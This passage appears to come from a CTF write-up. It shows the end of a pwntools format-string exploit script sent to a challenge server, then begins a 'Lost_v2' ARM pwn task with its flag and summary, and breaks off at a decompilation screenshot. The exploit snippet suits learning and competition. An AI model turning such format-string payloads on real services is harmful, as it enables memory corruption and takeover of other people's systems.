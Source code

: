 ```python

payload = fmtstr_payload(myoffset, writes, numbwritten=0)
print(payload)

s = remote('vmx.cs.pub.ro',31500)
s.sendline(payload)
s.interactive()

```
***

## Lost_v2 (100 pts, 6 solves): pwn

### Flag
ACS_KEYSIGHT_CTF{obliv10n_aw4ait2}

### Description
Same thing as `lost` task, except it is compiled for ARM

### Summary
Format string vulnerability

### Solve
This task is very similar to the previous one, except it’s compiled for the ARM architecture and it’s stripped. 
This is the source code using Ghidra to decompile it:

![Lostv2-main-func](assets/images/image15.png)
